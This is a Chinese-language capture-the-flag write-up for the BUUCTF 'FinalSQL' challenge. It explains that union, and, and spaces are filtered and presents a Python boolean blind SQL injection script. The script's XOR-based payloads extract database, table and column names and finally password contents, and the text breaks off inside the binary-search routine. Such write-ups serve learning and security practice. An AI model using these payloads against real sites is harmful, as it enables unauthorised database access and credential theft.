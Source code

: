 
# [极客大挑战 2019]FinalSQL

登录栏测了一下基本都过滤了，选择正确代码发现存在注入，但是 union、and、空格这些过滤了大部分，而且没有回显位，应该就是考布尔盲注。用 python 脚本二分法去跑结果

```
import requests
import re
import time

url = "http://df6d4f70-e3c4-46b8-86fb-7d59ae29eb14.node5.buuoj.cn:81/search.php?id="
x = 7
payloads = [
    # 库长 0
    "",
    # 库名 1
    "1^(ascii(substr((select(group_concat(schema_name))from(information_schema.schemata)),{i},1))>{mid})",
    # 表长 2
    "",
    # 表名 3
    "1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),{i},1))>{mid})",
    # 列长 4
    "",
    # 列名 5
    "1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)='F1naI1y'),{i},1))>{mid})",

    "",
    # 内容 7
    "1^(ascii(substr((select(group_concat(password))from(geek.F1naI1y)),{i},1))>{mid})"
]

method=0

keywords = "ERROR"#"Click others"

def boolean_query(url,payload):
    if method == 0:
        r = requests.get(url + payload)
    elif method == 1:
        r = requests.post(url, payload)
    elif method == 2:
        r = requests.post(url, json=payload)
    return keywords in r.text  # 这里判断页面是否存在关键字

def get_length(url,payload):
    if payload == "":
        return 0
    for i in range(1, 200):
        if boolean_query(url,payload):
            return i
    return 0

def get_name(url,length,payload):
    results=[]
    if length == 0:
        length = 400
    name = ""
    for i in range(170,length+1):
        low, high = 32, 126
        while low < high:
```